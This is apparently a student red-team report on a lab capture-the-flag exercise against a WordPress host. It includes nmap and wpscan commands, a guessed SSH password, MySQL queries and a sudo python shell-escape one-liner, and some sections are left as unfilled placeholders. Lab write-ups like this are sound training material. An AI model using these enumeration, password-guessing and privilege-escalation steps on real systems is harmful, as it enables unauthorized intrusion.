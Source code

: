 # Red Team: Summary of Operations

## Table of Contents

## Exposed Services

Critical Vulnerabilities
Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sS -v -A 192.168.1.110/24
![Activity Day 2 part 1  command nmap -sS -v -A](https://user-images.githubusercontent.com/88813019/157799806-92218ca1-45ea-42da-98a9-9e6ead4560ae.PNG)

Insert scan output

This scan identifies the services below as potential points of entry:

### Target 1:

List of Exposed Services:
- Port 22 (SSH)
- Port 80 (HTTP)
- Port 111 (rcpbind)

The following vulnerabilities were identified on each target:

- Identification and Authentication Failures
- Weak passwords
- Unprotected files
- User Enumeration (WordPress)

## Exposed Services

The following vulnerabilities were identified on each target:

#### Target 1
We ran the command: wpscan --url http://192.168.1.110/wordpress --enumerate u
This command will find the usernames "michael" and "steven" 

We guess michaels password which is "michael"

![Activity Day 2 Part 1  users](https://user-images.githubusercontent.com/88813019/157802049-21bb43d6-8306-4f51-9368-67f0d35b9089.PNG)

- Using ssh michael@192.168.1.110 with his password "michael" to gain access to his account.

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

### Target 1

flag1.txt:

![Activity 1 Day 2  Flag 1 1](https://user-images.githubusercontent.com/88813019/157802938-dcb745a7-11a9-4f9a-8c27-76c080b6111e.PNG)

Command used: $grep flag * 1 service.html

flag2.txt: 

![Activity Day 2 Part 1  Flag 2](https://user-images.githubusercontent.com/88813019/157804510-9c3fab66-b2b7-4404-b403-023905c19974.PNG)

Command used: cat flag2.txt

flag3.txt: 

![flag3](https://user-images.githubusercontent.com/88813019/157804799-9bc22142-63ab-4ace-b189-837a8d1e5e6d.png)

Commands used: 
- mysql -h localost -u root -p
- show databases;
- use wordpress;
- show tables;
- select * from wp_posts;

Flag4.txt: 

![Activity 1 Day 2 part 7 1](https://user-images.githubusercontent.com/88813019/157805372-dfeeeb22-d81e-4091-b72d-4470cf44e2ae.PNG)

Commands used:
- sudo python -c 'import os; os.system("/bin/sh")'
- 
